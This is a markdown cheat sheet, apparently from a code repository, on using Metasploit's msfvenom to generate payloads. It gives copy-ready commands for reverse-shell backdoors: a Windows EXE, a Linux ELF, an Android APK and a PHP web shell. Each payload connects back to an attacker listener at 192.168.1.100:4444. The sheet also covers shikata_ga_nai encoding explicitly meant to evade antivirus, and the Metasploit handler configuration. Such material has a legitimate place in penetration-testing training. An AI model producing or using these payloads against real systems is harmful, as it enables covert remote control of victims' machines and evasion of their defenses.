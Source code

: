## What is `msfvenom`?

**`msfvenom`** is a command-line tool that comes with the **Metasploit Framework**. It combines two older tools:

* `msfpayload` (for creating payloads)
* `msfencode` (for encoding payloads to evade AV)

Now, **`msfvenom`** handles both **payload generation** and **encoding** in a single tool.



## How `msfvenom` is Made Up (Anatomy)

A typical `msfvenom` command consists of:

```bash
platform/type/communication

windows/shell/reverse_http
```



```bash
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<port> -f <format> -o <output file>
```

### Components Breakdown:

| Part    | Description                                                                |
| ------- | -------------------------------------------------------------------------- |
| `-p`    | Payload to use (`windows/meterpreter/reverse_tcp`, etc.)                   |
| `LHOST` | IP address of your attacking machine (listener)                            |
| `LPORT` | Port to connect back to                                                    |
| `-f`    | Output file format (e.g., `exe`, `elf`, `apk`, `raw`, `c`, `python`, etc.) |
| `-o`    | Output file name (optional but recommended)                                |



## Common Payload Types

| Platform | Example Payload                     | Description                     |
| -------- | ----------------------------------- | ------------------------------- |
| Windows  | `windows/meterpreter/reverse_tcp`   | Full-featured Meterpreter shell |
| Linux    | `linux/x86/meterpreter/reverse_tcp` | Meterpreter for Linux           |
| PHP      | `php/meterpreter_reverse_tcp`       | PHP backdoor                    |
| Android  | `android/meterpreter/reverse_tcp`   | Android payload                 |
| MacOS    | `osx/x86/shell_reverse_tcp`         | Shell for macOS                 |



## Example Usages

### 1. **Windows Reverse Shell (EXE file)**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

### 2. **Linux Reverse Shell (ELF binary)**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

### 3. **Android APK Backdoor**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 R > backdoor.apk
```

### 4. **PHP Web Shell Payload**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```



## Optional Encoding (AV Evasion)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe > encoded_shell.exe
```

* `-e`: encoder
* `-i`: number of iterations



## Starting a Listener with Metasploit

After generating a payload, start the listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```
